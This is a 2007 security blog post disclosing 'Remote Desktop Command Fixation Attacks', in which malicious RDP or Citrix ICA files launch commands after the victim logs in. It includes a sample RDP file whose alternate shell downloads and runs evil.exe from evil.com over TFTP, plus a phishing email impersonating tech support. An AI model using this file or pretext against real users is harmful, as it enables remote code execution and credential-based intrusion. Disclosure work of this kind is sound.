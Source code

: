 ```yaml
---
title: Remote Desktop Command Fixation Attacks
author: petko-d-petkov
date: Wed, 10 Oct 2007 11:00:42 GMT
template: this/views/post.jade
---
```


The attack is rather simple. All the attacker needs to do is to compose a malicious RDP (for Windows Terminal Services) or ICA (for CITRIX) file and send it to the victim. The victim is persuaded to open the file by double clicking on it. When the connection is established, the user will enter their credentials to login and as such let the attacker in.

Both, RDP and ICA, contain information not only about what servers to connect to but also what applications to launch after successful authentication. These parameters can be modified to suit the attacker needs. In CITRIX we can specify the default shell command by using the parameter **Application** (i.e `Application=calc.exe`). In Windows Remote Desktop we can do exactly the same with the **alternate shell** (i.e `alternate shell:s:cmd.exe`) directive. Here follows a sample ICA file:

    [WFClient]
    Version=1

    [ApplicationServers]
    Connection To Citrix Server=

    [Connection To Citrix Server]
    InitialProgram=**some command here**
    Address=_172.16.3.191_

    ScreenPercent=0

    In Windows Terminal Services, the same can be achieved with the following example:

    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**some command here**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

    This is all that the attacker needs to know. Let's have a step-by-step look at the attack structure, shall we:

1.  **Compose a malicious Remote Desktop session file:**
    The following example instructs TFTP to connect to **evil.com** and retrieve a file called **evil.exe**. Once the download is completed, the attacker executes **evil.exe** and subsequently terminates the session:
    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**cmd.exe /C "tftp -i evil.com GET evil.exe evil.exe & evil.exe"**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

2.  **Send email to the victim:**
Here the attacker uses his social engineering skills to persuade the victim into opening and authenticating the session file. This is how it is done:
> Hello John,
> 
>     This is Tim from Tech Department. I was informed that you have some problems with your remote desktop connectivity. I've attached a modified RDP file you can tryout and see if it works. Just double click on the file and login. Your domain credentials should work. Let me know if you have any problems.
> 
>     Tim O'Brian
> Tech Department
3.  **Own it:**
The attacker notices a new entry in his TFTP log files. The operation was successful. Now he can take full advantage of his brand new asset. "Simple tricks always work."

_This is it. This is what I would like to refer to as "Remote Desktop Command Fixation Attacks". They are simple, highly affective, unknown to system administrators (as of yet), and pretty vicious. Keep in mind that the same procedure apply to CITIRX as well._
